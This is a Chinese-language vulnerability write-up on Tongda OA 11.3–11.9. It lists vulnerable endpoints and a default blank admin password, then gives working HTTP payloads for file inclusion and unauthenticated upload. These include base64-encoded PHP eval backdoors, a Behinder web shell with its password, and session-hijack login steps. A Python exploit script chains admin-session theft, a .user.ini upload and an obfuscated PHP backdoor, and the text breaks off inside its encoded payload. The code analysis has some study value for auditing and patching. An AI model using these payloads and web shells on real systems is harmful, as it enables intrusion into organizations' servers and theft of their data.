# 通达oa
- [环境准备](#环境准备)
- [通达部分漏洞信息整合](#通达部分漏洞信息整合)
- [全局配置说明](#全局配置说明)
- [弱口令-全版本通杀](#弱口令-全版本通杀)]
- [通达oa11.3](#通达oa11.3)
    - [环境准备](#环境准备)
    - [指纹特征-11.3](#指纹特征-11.3)
    - [审计流程](#审计流程)
        - [任意文件包含](#任意文件包含)
			- [总结1](#总结1)
        - [任意文件上传](#任意文件上传)
			- [版本路径梳理](#版本路径梳理)
			- [总结2](#总结2)
- [通达oa11.x-11.5](#通达oa11.x-11.5)
	- [任意用户登录](#任意用户登录)
- [通达oa11.6](#通达oa11.6)
	- [指纹特征-11.6](#指纹特征-11.6)
	- [任意文件删除&getshell](#任意文件删除&getshell)
- [通达oa11.7](#通达oa11.7)
    - [指纹特征-11.7](#指纹特征-11.7)
    - [有效的任意用户登录-管理员在线](#有效的任意用户登录-管理员在线)
	- [后台SQL注入getshell](#后台SQL注入getshell)
- [通达oa11.8](#通达oa11.8)
    - [指纹特征-11.8](#指纹特征-11.8)
    - [11.8后台getshell](11.8后台getshell)
- [通达oa11.9](#通达oa11.p9)
- [参考文章](#参考文章)
## 环境准备

- [通达官网](https://www.tongda2000.com/)
- [通达oa11.3源码](https://cdndown.tongda2000.com/oa/2019/TDOA11.3.exe)
- [通达oa11.6源码](https://cdndown.tongda2000.com/oa/2019/TDOA11.6.exe)
- [通达oa11.7源码](https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe)
- [通达oa11.8源码](https://cdndown.tongda2000.com/oa/2019/TDOA11.8.exe)
- [通达oa11.9源码](https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe)
- [PHP免费在线解密](http://dezend.qiling.org/free.html)
- seayzend解密工具
- 首先用zend将webroot解密(时间有点长)-该解密工具不完全准确，可以在分析单个文件时再次拿到在线网站解密跑一次。

## 通达部分漏洞信息整合

- https://github.com/OA-HUNTER/TongDa-OA

通达OA信息收集
```
http[s]://TongDaOA.domain/inc/expired.php 判断通达版本
http[s]://TongDaOA.domain/inc/reg_trial.php
http[s]://TongDaOA.domain/inc/reg_trial_submit.php
http[s]://TongDaOA.domain/ispirit/retrieve_pwd.php
GET 参数username、email 可爆用户、邮箱
http[s]://TongDaOA.domain/resque/worker.php 计算机名
```

2013-2017(SQLi path)
```
http[s]://TongDaOA.domain/module/crm2010/imageOperation/deleteImage.php 
http[s]://TongDaOA.domain/module/crm2010/product/type_tree.php 
http[s]://TongDaOA.domain/module/crm2010/select/getData.php 
http[s]://TongDaOA.domain/module/crm2010/select/getValue.php 
http[s]://TongDaOA.domain/module/crm2010/select/index.php 
http[s]://TongDaOA.domain/module/crm2010/share/update.php 
http[s]://TongDaOA.domain/portal/webportals/source/oa/news.php
http[s]://TongDaOA.domain/portal/webportals/source/oa/notify.php?LOGIN_USER_ID=
http[s]://TongDaOA.domain/task/crm/account_care_remind.php
http[s]://TongDaOA.domain/task/crm/action_link_remind.php
http[s]://TongDaOA.domain/task/crm/contract_birthday_remind.php
http[s]://TongDaOA.domain/task/crm/contract_near_remind.php
http[s]://TongDaOA.domain/task/crm/contract_remind.php
http[s]://TongDaOA.domain/task/crm/crm_account_contact_bir_remind.php
http[s]://TongDaOA.domain/task/crm/crm_complain_remind.php
http[s]://TongDaOA.domain/task/crm/crm_opportunity_status_remind.php
http[s]://TongDaOA.domain/task/crm/crm_salepay_remind.php
http[s]://TongDaOA.domain/task/crm/crm_stockout_remind.php
http[s]://TongDaOA.domain/task/crm/marketing_near_remind.php
http[s]://TongDaOA.domain/task/crm/order_to_stockout_remind.php
http[s]://TongDaOA.domain/task/crm/payment_near_remind.php
http[s]://TongDaOA.domain/task/crm/storage_near_remind.php
http[s]://TongDaOA.domain/ispirit/myoa.php
http[s]://TongDaOA.domain/ispirit/retrieve_pwd.php
```

v11~v11.6 [0day]
```
http[s]://TongDaOA.domain/general/approve_center/list/roll_config.inc.php
http[s]://TongDaOA.domain/general/bi_design/reportshop/report_bi.func.php
http[s]://TongDaOA.domain/general/data_center/console/autocode/autocode.php
http[s]://TongDaOA.domain/general/data_center/model_design/console/autocode/autocode.php
http[s]://TongDaOA.domain/general/data_center/model_design/design/report/action.php
http[s]://TongDaOA.domain/general/reportshop/design/report/action.php
http[s]://TongDaOA.domain/general/project/portal/details/budget/table.php
http[s]://TongDaOA.domain/general/reportshop/design/report/console/autocode/autocode.php
http[s]://TongDaOA.domain/general/reportshop/workshop/report/attachment-remark/form3.php
http[s]://TongDaOA.domain/general/system/user/get_key_user_info.php
http[s]://TongDaOA.domain/general/workflow/list/roll_config.inc.php
http[s]://TongDaOA.domain/interface/GetNewAPP.php
http[s]://TongDaOA.domain/interface/GetNewAPP1.php
http[s]://TongDaOA.domain/general/workflow/plugin/turn/kd_k3_applly/kd_k3_applly.php
http[s]://TongDaOA.domain/general/workflow/document_list/roll_config.inc.php
```

v11.6 [RCE]
```
http[s]://TongDaOA.domain/module/appbuilder/assets/print.php 任意文件删除
```

## 全局配置说明

首先是通用文件，整个OA的大部分文件都会引用`inc/utility*`多个文件，里面涉及到了所有OA的通用函数以及一些全局处理、配置文件等。

除了关注到一些过滤函数以外，还有一个比较重要的是在`inc/common.inc.php`的全局处理，并将全局变量对应赋值给对应变量名。

而这个文件被多个基础文件引用，所以我们就有了一个自带的全局变量覆盖，但是是经过过滤的。

可以明确的是，这个问题作为顽疾深深埋在了通达OA的深处，11.7以后的漏洞也大多都是因为这个原因造成的。

除了这个以外，在前一篇文章我提到过，通达OA关于文件上传相关的配置非常完善。首先是建了attachment作为附件目录，正常的文件上传都会传到这里。

## 弱口令-全版本通杀

初始账号为admin，密码为空。



## 通达oa11.3
## 指纹特征-11.3



`body="/static/templates/2020_year_01/logo.png"`

后台在最下面一栏可以看到版本号

## 审计流程


## 任意文件包含

**漏洞复现**

漏洞点发生在前台(ispirit/interface/gateway.php)

payload如下：

```
POST /ispirit/interface/gateway.php HTTP/1.1
...

json={"url":"/general/../../mysql5/my.ini"}
```




**代码分析**

ispirit/interface/gateway.php

```php
if ($json) {
	$json = stripcslashes($json); // 去除反斜杆
	$json = (array) json_decode($json); //json解码

	foreach ($json as $key => $val ) {
		if ($key == "data") {
			$val = (array) $val;

			foreach ($val as $keys => $value ) {
				$keys = $value;
			}
		}
		if ($key == "url") {
			$url = $val;
		}
	}
	if ($url != "") {
		if (substr($url, 0, 1) == "/") {
			$url = substr($url, 1);
		}

		if ((strpos($url, "general/") !== false) || (strpos($url, "ispirit/") !== false) || (strpos($url, "module/") !== false)) {
			include_once $url;
		}
	}

	exit();
```

关键代码：
```php
		if ((strpos($url, "general/") !== false) || (strpos($url, "ispirit/") !== false) || (strpos($url, "module/") !== false)) {
			include_once $url;
		}
```

典型的文件包含漏洞，虽然用strpos限制开头只能为general、ispirit、module，但并没有对后面的后缀做限制，因此可以拼接诸如general/../../../来遍历文件。$json可控的，这里寻找$json变量有点困难，不太好用xdebug，通过include验证一直层层递进在/inc/common.inc.php文件如下：

```php
if (0 < count($_POST)) {
    $arr_html_fields = array();
    foreach ($_POST as $s_key => $s_value) {
        if (substr($s_key, 0, 7) == '_SERVER') {
            continue;
        }
        if (substr($s_key, 0, 15) != 'TD_HTML_EDITOR_') {
            if (!is_array($s_value)) {
                $_POST[$s_key] = addslashes(strip_tags($s_value));
            }
            ${$s_key} = $_POST[$s_key];
```

典型的二次变量覆盖漏洞，$json就是从这里来的，同样地也可以通过$_GET去赋值。


# 总结1
- 猜测传参方式
    - 其他文件A通过包含这个文件，然后A中有$json这个参数的获取方式。
    - 因为这个文件头部有include，所以猜测本文件的开头include的文件会存在$json参数的获取。

## 任意文件上传

**漏洞复现**

- 需要结合前面的文件包含getshell
```
POST /ispirit/im/upload.php HTTP/1.1
Host: 10.30.1.53
Content-Length: 655
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBwVAwV3O4sifyhr3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="P"


------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$fp = fopen('readme.php', 'w');
$a = base64_decode("PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==");
fwrite($fp, $a);
fclose($fp);
?>

------WebKitFormBoundaryBwVAwV3O4sifyhr3--
```




```
POST /ispirit/interface/gateway.php HTTP/1.1
...

json={"url":"/general/../../attach/im/2106/1627359439.jpg"}
```





- 冰蝎马，密码为rebeyond
- http://xxxxxx/ispirit/interface/haha.php
```php
<?php
$fp = fopen('haha.php', 'w');
$a = base64_decode("PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKc2Vzc2lvbl9zdGFydCgpOwogICAgJGtleT0iZTQ1ZTMyOWZlYjVkOTI1YiI7IC8v6K+l5a+G6ZKl5Li66L+e5o6l5a+G56CBMzLkvY1tZDXlgLznmoTliY0xNuS9je+8jOm7mOiupOi/nuaOpeWvhueggXJlYmV5b25kCgkkX1NFU1NJT05bJ2snXT0ka2V5OwoJc2Vzc2lvbl93cml0ZV9jbG9zZSgpOwoJJHBvc3Q9ZmlsZV9nZXRfY29udGVudHMoInBocDovL2lucHV0Iik7CglpZighZXh0ZW5zaW9uX2xvYWRlZCgnb3BlbnNzbCcpKQoJewoJCSR0PSJiYXNlNjRfIi4iZGVjb2RlIjsKCQkkcG9zdD0kdCgkcG9zdC4iIik7CgkJCgkJZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7CiAgICAJCQkgJHBvc3RbJGldID0gJHBvc3RbJGldXiRrZXlbJGkrMSYxNV07IAogICAgCQkJfQoJfQoJZWxzZQoJewoJCSRwb3N0PW9wZW5zc2xfZGVjcnlwdCgkcG9zdCwgIkFFUzEyOCIsICRrZXkpOwoJfQogICAgJGFycj1leHBsb2RlKCd8JywkcG9zdCk7CiAgICAkZnVuYz0kYXJyWzBdOwogICAgJHBhcmFtcz0kYXJyWzFdOwoJY2xhc3MgQ3twdWJsaWMgZnVuY3Rpb24gX19pbnZva2UoJHApIHtldmFsKCRwLiIiKTt9fQogICAgQGNhbGxfdXNlcl9mdW5jKG5ldyBDKCksJHBhcmFtcyk7Cj8+Cg==");
fwrite($fp, $a);
fclose($fp);
?>
```

**代码分析**

- ispirit/im/upload.php
```php
<?php

set_time_limit(0);
$P = $_POST["P"];
if (isset($P) || ($P != "")) {
	ob_start();
	include_once "inc/session.php";
	session_id($P);
	session_start();
	session_write_close();
}
else {
	include_once "./auth.php";
}
```

分析这一段可知，只要p不为空就会跳过auth认证，从而继续执行后续的上传代码，在新的补丁中是将else删掉的。继续分析下面的代码：

上述代码可以看到，一共传了4个表单参数，分别是UPLOAD_MODE、P、DESTUID、ATTACHMENT



前面是对参数的判断，从图中可知上传的变量为ATTACHMENT，upload函数里是对一些检查如黑名单检测，但不影响我们上传jpg格式的PHP代码，再去文件包含即可。

## 版本路径梳理

V11 / 2013：
```
文件上传路径：http://172.16.33.136/ispirit/im/upload.php
文件包含路径：http://172.16.33.136/ispirit/interface/gateway.php
```

2017
```
文件上传路径：http://172.16.33.136/ispirit/im/upload.php
文件包含路径：http://172.16.33.136/mac/gateway.php
```

```
文件上传后保存在 C:/MYOA/attach/im/2010/843729491.txt
文件包含页面地址 C:/MYOA/webroot/ispirit/interface/gateway.php
```

文件上传漏洞全版本覆盖，文件包含仅V11.3版本存在。

## 总结2

文件上传需要结合文件包含利用，且文件包含只有11.3版本才会有。

## 通达oa11.x-11.5

## 任意用户登录

这里可以利用工具获取cookie，但这里尝试手工熟悉一下。

**影响版本**

- 通达OA2017
- V11.x ~ V11.5

**漏洞复现**





1. Cookie删掉
2. POST再增加`UID=1`
3. POST地址为`logincheck_code.php`
4. 获取PHPSESSION后访问/general/index.php并添加上去`PHPSESSID=a8bbv8918lt05eo058dgr9f7v7`,我这里用插件Cookie Editor来维持权限。


## 通达oa11.6


## 指纹特征-11.6



`body="/static/templates/2019_01/login_bg.png?2019"`

后台在最下面一栏可以看到版本号


## 任意文件删除&getshell

- 该洞有风险，切勿在公网上使用

## 通达oa11.7
## 指纹特征-11.7

跟11.6差不多
## 有效的任意用户登录-管理员在线

**漏洞利用**

xinyun跑了一下只有poc5能利用成功，分析一下poc5

访问`http://xxxxxx/mobile/auth_mobi.php?isAvatar=1&uid=%d&P_VER=0`

若出现空白页面则说明已经获得权限 再去访问/general/

出现RELOGIN说明需要有人在线登录才能利用，当用户在线时会返回 PHPSESSION使其可登录后台系统

这种洞一般很难利用。成功率不大。监控脚本如下：

```py
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA 11.7                                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_0(target_url):
    vuln_url = target_url + "/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "RELOGIN" in response.text and response.status_code == 200:
            print("\033[31m[x] 目标用户为下线状态 --- {}\033[0m".format(time.asctime( time.localtime(time.time()))))
        elif response.status_code == 200 and response.text == "":
            Cookie = re.findall(r'PHPSESSID=(.*?);', str(response.headers))
            print("\033[32m[o] 用户上线 PHPSESSION: {} --- {}\033[0m".format(Cookie[0] ,time.asctime(time.localtime(time.time()))))
            Cookie = "PHPSESSID={};USER_NAME_COOKIE=admin; OA_USER_ID=admin".format(Cookie[0])
            POC_1(target_url, Cookie)
        else:
            print("\033[31m[x] 请求失败，目标可能不存在漏洞")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0idGVzdC5pbmkiCkNvbnRlbnQtVHlwZTogdGV4dC9wbGFpbgoKYXV0b19wcmVwZW5kX2ZpbGU9dGVzdC5sb2cKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0idGVzdC5sb2ciCkNvbnRlbnQtVHlwZTogdGV4dC9wbGFpbgoKPD9waHAgCmVjaG8gInRlc3RfV2lraSI7CiRwemtCPWNyZWF0ZV9mdW5jdGlvbihjaHIoMDEwMTc1MC8wMTY1MikuYmFzZTY0X2RlY29kZSgnY3c9PScpLmJhc2U2NF9kZWNvZGUoJ2J3PT0nKS5jaHIoOTkwODEvOTA5KS5jaHIoMDEwMjUtMDY2MCksY2hyKDA1MTctMDM1MikuY2hyKDB4MzQzLTB4MmNkKS5iYXNlNjRfZGVjb2RlKCdZUT09Jykuc3RyX3JvdDEzKCd5JykuYmFzZTY0X2RlY29kZSgnS0E9PScpLmJhc2U2NF9kZWNvZGUoJ0pBPT0nKS5jaHIoNDQ0LTMyOSkuYmFzZTY0X2RlY29kZSgnYnc9PScpLmNocig1OTctNDg4KS5jaHIoMHgxOWYtMHgxM2EpLmNocigyMTktMTc4KS5iYXNlNjRfZGVjb2RlKCdPdz09JykpOyRwemtCKGJhc2U2NF9kZWNvZGUoJ05EZzFOJy4nemMyTzAnLidCbGRrRicuJ3NLQ1JmJy4nJy5jaHIoODIxMTAvOTY2KS5iYXNlNjRfZGVjb2RlKCdSUT09Jykuc3RyX3JvdDEzKCc5JykuY2hyKDAxNTUwNjQvMDEyMzEpLmJhc2U2NF9kZWNvZGUoJ1ZnPT0nKS4nJy4nJy5zdHJfcm90MTMoJ1MnKS5iYXNlNjRfZGVjb2RlKCdkQT09JykuYmFzZTY0X2RlY29kZSgnTUE9PScpLmNocig2MDc1MC82NzUpLmNocigwMTUwNy0wMTM1NykuJycuJ04wWFNrJy4nN01UUTEnLidOek15TycuJ0RzPScuJycpKTs/PgotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0t